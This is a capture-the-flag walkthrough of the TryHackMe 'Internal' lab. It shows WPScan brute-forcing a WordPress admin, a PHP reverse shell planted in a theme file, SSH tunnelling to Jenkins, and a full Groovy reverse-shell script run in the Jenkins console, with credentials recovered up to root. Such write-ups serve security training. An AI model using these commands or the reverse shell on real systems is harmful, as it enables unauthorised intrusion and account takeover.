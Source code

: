 <img src="https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/Internal%20(THM)/Images/222b3e855f88a482c1267748f76f90e0.jpeg?raw=true" alt="Internal Screenshot" width="500"/>


Internal (Tryhackme)
#Penetration Testing Challenge#

# Enumeration

## Nmap

```jsx
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## HTTP (80)

### Dirsearch

```jsx
[05:28:52] 301 -  313B  - /blog  ->  http://10.10.120.129/blog/             
[05:28:53] 200 -    2KB - /blog/wp-login.php                                
[05:28:53] 200 -   18KB - /blog/                                            
[05:29:29] 301 -  319B  - /javascript  ->  http://10.10.120.129/javascript/ 
[05:29:53] 301 -  319B  - /phpmyadmin  ->  http://10.10.120.129/phpmyadmin/ 
[05:29:55] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[05:29:56] 200 -    3KB - /phpmyadmin/                                      
[05:29:56] 200 -    3KB - /phpmyadmin/index.php
[05:30:08] 403 -  278B  - /server-status/                                   
[05:30:08] 403 -  278B  - /server-status
[05:30:35] 200 -    2KB - /wordpress/wp-login.php                           
[05:30:36] 404 -   51KB - /wordpress/ 
```

### Website functionality

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(3).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(4).png)

- username admin is available
- bruteforce password

## WPScan

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog -e vp,u

┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

```jsx
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

## Post Enumeration

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(5).png)

```jsx
william:arnold147
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh william@10.10.120.129
william@10.10.120.129's password: 
Permission denied, please try again.
william@10.10.120.129's password: 
```

- ssh cannot connect

### Reverse Shell

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(6).png)

- we upload php-revershell-php

```jsx
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.ph
```

- tick this link

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 53    
listening on [any] 53 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 34560
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:06:33 up 44 min,  0 users,  load average: 0.00, 0.14, 0.88
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

```jsx
$ cd /opt
$ ls -lah
total 16K
drwxr-xr-x  3 root root 4.0K Aug  3  2020 .
drwxr-xr-x 24 root root 4.0K Aug  3  2020 ..
drwx--x--x  4 root root 4.0K Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

- we check cat /etc/passwd
- aubreanna is user
- we ssh login

```jsx
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
```

```jsx
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

- the ip may be docker

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.120.129

```

- link connect this docker ip

```jsx
  System information as of Sat Jun  7 10:16:41 UTC 2025

  System load:  0.0               Processes:              112
  Usage of /:   63.8% of 8.79GB   Users logged in:        0
  Memory usage: 37%               IP address for eth0:    10.10.120.129
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(7).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(8).png)

- fuzz password

```jsx
admin : spongebob
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(9).png)

### Jenkins Reverse Shell

- In jenkins, we can get reverse shell from `scripting console`

```jsx
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Can find at groovy reverse shell online
- Change string cmd = `“/bin/sh”`

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 8044
listening on [any] 8044 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 60380
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

```

```jsx
cd opt
ls -lah
total 12K
drwxr-xr-x 1 root root 4.0K Aug  3  2020 .
drwxr-xr-x 1 root root 4.0K Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh root@10.10.120.129
root@10.10.120.129's password: 
```
